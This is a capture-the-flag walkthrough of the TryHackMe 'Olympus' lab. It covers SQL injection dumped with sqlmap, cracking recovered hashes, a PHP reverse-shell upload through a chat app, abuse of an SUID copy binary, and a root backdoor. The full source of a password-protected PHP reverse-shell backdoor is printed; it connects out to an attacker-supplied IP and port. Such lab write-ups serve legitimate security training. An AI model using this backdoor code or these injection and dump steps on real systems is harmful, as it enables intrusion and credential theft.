This box is rated medium difficulty on THM. It involves us exploiting a SQL injection in an old CMS site, which leads to dumping user credentials. Using a recovered password to login over a chat application lets us upload files to the box and get a shell as the server. From there, we abuse an SUID bit set on an obfuscated binary and serve a backdoor PHP script to our attacking machine to escalate privileges to root.

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.64.129.25 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-21 21:01 CST
Nmap scan report for 10.64.129.25
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:f9:41:d6:9f:11:74:7b:9a:4f:d2:64:e7:76:a0:2b (RSA)
|   256 7c:fa:9a:8e:8b:e5:e8:d8:5d:78:d5:e7:0e:a3:5e:ab (ECDSA)
|_  256 b6:7a:7a:c2:aa:ee:82:0e:ea:b5:73:20:a6:d4:63:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://olympus.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

There isn't much to do on that version of OpenSSH without credentials, so I fire up Gobuster to find subdirectories/subdomains in the background. Default scripts also show that the server redirects us to olympus.thm, so I'll add that to my `/etc/hosts` file.

Checking out the landing page only shows a message disclosing that the site is still under development, as well as an email address for the root user for the IT dept. The main thing to take away here is that an older version of the site is still accessible on this domain.



A half dozen scans later shows no other subdomains/alternate names and a handful of directories. Fuzzing for any sensitive documents in `/javascript` or `/static` doesn't show much, however the `/~webmaster` directory seems interesting.

```
$ gobuster dir -u http://olympus.thm/ -w /opt/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://olympus.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 1948]
/javascript           (Status: 301) [Size: 315] [--> http://olympus.thm/javascript/]
/phpmyadmin           (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
/static               (Status: 301) [Size: 311] [--> http://olympus.thm/static/]
/~webmaster           (Status: 301) [Size: 315] [--> http://olympus.thm/~webmaster/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

Navigating to it confirms that this is indeed where the older version of the site was moved to after the newer one was pushed into production. A quick look around rewards me with some good information on how the site was built. Victor created his own CMS and used it as a platform for people to share their desires and needs.


Clicking on a lot of the posts only returns a 404 page, which sort of makes sense as the site has been moved. Scrolling down gives us two very interesting things to play with. 



The first is a login panel for the site's users to manage their accounts, supplying default credentials like `admin:admin` redirects us to a white page at `login.php`. Not sure if this is a broken feature or just happens when authentication fails, but I keep it in mind in case we come across credentials.

## Dumping DB via SQL Injection
The second is a search bar which will return keywords in posts made on the platform. I test the query for SQL injection by supplying a single quote and find that it procs an error in our MySQL syntax.



Looks like it is indeed vulnerable to SQL injection, if this still works to search the site for posts, maybe we can also use it to enumerate the database for reused credentials. Another thing to note is that brute-forcing is out of the scope for this engagement, so getting access to things like backup files or databases may be crucial for gathering login info.

I capture a request to the `search.php` function in Burp Suite and save it to a file in order to send it to SQLmap. If you'd like to enumerate this DB manually, [this article](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/) and [PayloadAllTheThings' Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) are great references.

```
sqlmap -r sqli.req --batch --dbs
```



That returns a few databases to grab things from, I'll start with the Olympus one as one of the posts talked about how users had weak passwords which may also be the case over SSH.

```
sqlmap -r sqli.req --batch -D olympus --tables
```



Inside of the flag table is the first of four on the box, but I'm more interested with what's inside users.

```
sqlmap -r sqli.req --batch -D olympus -T users --dump
```



That returns three hashes for accounts named Prometheus, Root, and Zeus. Judging by which ones are being salted, we'll only be able to crack one of them. We can also see that two of the users' email addresses point towards a chat subdomain, so I add that to my `/etc/hosts` to find if that's available to us.



That does prompt us with a login panel for some type of chat application, not too sure why my subdomain fuzzes didn't pick this up but I digress. A moment later and JohnTheRipper rewards us with a plaintext password for Prometheus.



His email address didn't contain the chat subdomain, but still works to login on both sites. Before heading over to the chat app, I want to fully enumerate the CMS in case we miss any important info. From here on, we can also either look towards getting a shell on the system via internal functionality or find a way to escalate privileges to admin for more options.



Checking to see how the site tracks our logins shows a PHPSESSID cookie with the httponly flag set to false. This means that if we can find a form that's prone to Cross-Site Scripting and another user accesses that page, we can hijack their session.



There are also a few fields under the Profile tab which allow us to change certain things that get displayed to the page (ie. username and profile picture). Testing for SSTI and other common payloads really doesn't return anything useful so I move onto the chat application.

## Shell Upload from Chat Application
Honestly, this took way longer than I'd like to admit to login here. The credentials for Prometheus' account did actually work here, but whenever I was messing around with the CMS site's username it would also update here. Simply changing them back to the default worked to get a valid login and we can see a previous interaction with Zeus.



This chat application was extremely vulnerable to all types of attacks, including HTML injection to the message board and arbitrary file uploads to the server. Whenever sending an attachment in our request, the server saves it to the `/uploads` directory. Plus the added fact that there were no filters or sanitization anywhere on this page meant that we could just upload a PHP reverse shell via that feature.

Navigating to that resource returns a 404 Not Found code, which most likely meant that our filename was changed with a standardized naming scheme. I tried a few common things such as the date and time prepended to it and our username, but nothing worked. Then I thought back to how our access to the site's database contained a posts table which could disclose how it was being saved.

```
sqlmap -r sqli.req --batch -T chats --dump
```



Dumping the chats table inside of the Olympus database grants us the exact filenames of where our stuff is stored at. Along with our reverse shell is a text file for Prometheus' password which really just tells us to try harder.


After navigating to our uploaded file, we get a successful shell on the server as `www-data` and can start internal enumeration in order to escalate privileges. I also upgrade and stabilize my shell with the typical `Python3 -c import pty` method.

## Privilege Escalation
At this point, we can grab the second flag under Zeus' home directory as well as starting looking routes to pivot toward his account. Going about the usual ways to escalate privileges showed a binary owned by Zeus which also had the SUID bit set on it. If vulnerable, we could use this to switch users or disclose some important info like an SSH key.



During earlier steps in the box, someone left a few messages saying that they managed to hack their way into Olympus and skirted the IT departments efforts to keep them out. Upon using this binary, we can see it's really just used to copy files from a source to another destination. 

### Shell as Zeus
I can't seem to think of a reason why you'd use this instead of the `cp` command besides a coding project, so it kind of seems like a backdoor left by the previous attacker. In any case, I use this binary to copy Zeus' private SSH key to a file under `/tmp`.



Attempting to login with this key prompts us with a necessary passphrase in order to use it. I convert this key to a crackable format using ssh2john and give it a moment to see if it would return anything. Luckily for us, it's a simple phrase that is also listed in the RockYou leak.



### Shell as Root
After logging in as him, I start looking around for anything owned or being executed by root user that we can leverage into getting a shell. We couldn't use Sudo without a password and there were no vulnerable binaries left to exploit, so I enumerate the file system some more. Whilst looking for directories owned by root that we also had access to, I discover a directory labeled with a strange string.

```
find / -group zeus 2>/dev/null
```



Inside is an empty `index.html` file as well as PHP script owned by root that contains a password variable. This doesn't work for any of the users on the box, but reading the script thoroughly shows that it's a secret backdoor left by someone else. 

```
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```

This script is hosting a password protected function that connects back to an attack-owned machine. We can serve this to our attacking machine by navigating to the directory that the script is inside of and using a simple PHP command.

```
php -S BOX_IP:4567
```

Accessing it with my browser shows that we need a few parameters in order to make the script reach out to us.



After setting up a Netcat listener and providing the correct values for the IP and port parameters, we can type the password in once again to grab a successful shell as root user.



I upgrade and stabilize my shell one last time before grabbing the root flag under `/root` directory. The hint for the final flag said that it was located inside of the `/etc` directory, so I used grep to parse all files which found it quickly.



Inputting those two flags completes this challenge. I had a lot of fun on this box as we covered all bases from cryptography and enumeration to other critical web-based exploits. I hope this was helpful to anyone following along or stuck and happy hacking!
